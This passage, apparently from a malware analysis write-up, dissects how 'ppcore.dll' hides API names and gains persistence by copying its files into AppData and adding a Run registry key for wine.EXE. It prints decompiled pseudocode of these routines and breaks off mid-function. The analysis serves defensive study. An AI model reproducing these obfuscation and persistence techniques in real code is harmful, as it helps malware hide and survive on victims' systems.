 This obfuscation is easy to bypass using execution tracing, since it's enough to inspect the return value of the `GetDecrypted` / `DecryptData` function to understand what was recovered.

### Persistence

`ppcore.dll` ensures persistence within the system using the `InstallPersistenceRegKey` function. This function begins by copying the contents of the archive into a folder created at the following path: `C:\Users\User\AppData\Local\`


```c
/* Creation of the directory */
void* name_CreateDirectoryW = GetDecryptedData(EncryptedNameOf_CreateDirectoryW);
void var_5b1;
void var_5b0;
int64_t r9_7 = GetEncryptedDataOf_kernel32_bis(&var_5b1, &var_5b0);
void* name_kernel32;
int64_t r8_8;
name_kernel32 = DecryptData_2(&var_5b0);
ResolveFunction(name_kernel32, name_CreateDirectoryW, r8_8, r9_7)(&path, 0);

...

/**
 * File copying / This code is repeated three times.
 * Once for each file in the archive:
 *  - ppcore.dll
 *  - AppvIsvSubSystems64.dll
 *  - wine.EXE
 */
GetEncryptedDataOf_CopyFileW_2(&var_c09, &EncryptedNameOf_CopyFile);
void* name_CopyFileW = GetDecrypted_CopyFileW(EncryptedNameOf_CopyFileW);
void var_c39;
void var_c38;
int64_t r9_17 = GetEncryptedDataOf_kernel32_quad(&var_c39, &EncryptedNameOf_kernel32);
void* name_kernel32;
int64_t r8_27;
name_kernel32 = DecryptData_2(&EncryptedNameOf_kernel32);
int64_t r8_28;
int64_t r9_18;
r8_28 = ResolveFunction(name_kernel32, name_CopyFileW, r8_27, r9_17)(&src, &dest, 0);
```

Once these files are copied, the code creates a registry key (RegKey) and assigns it the path to `wine.EXE` so that the executable runs at every system startup. Here is the code:

```c
GetEncryptedDataOf_RegCreateKeyExW(&var_cc1, &EncryptedNameOf_RegCreateKeyExW);
void* name_RegCreateKeyExW = DecryptData_8(EncryptedNameOf_RegCreateKeyExW_1);
void var_cf1;
void var_cf0;
int64_t r9_23 = GetEncryptedDataOf_advapi32(&var_cf1, &DecryptedNameOf_RegCreateKeyExW);
void* name_advapi32_2;
int64_t r8_35;
name_advapi32_2 = DecryptData_2(&var_cf0);
void* RegCreateKeyExW =
    ResolveFunction(name_advapi32_2, name_RegCreateKeyExW, r8_35, r9_23);
/* String for regkey :
 * SOFTWARE\Microsoft\Windows\CurrentVersion\Run
 */
void var_d61;
void var_d60;
GetEncryptedDataOf_string_regkey(&var_d61, &var_d60);
int16_t (* var_10a8_1)[0x107];
(uint32_t)var_10a8_1 = 0;
int64_t var_ca0;
```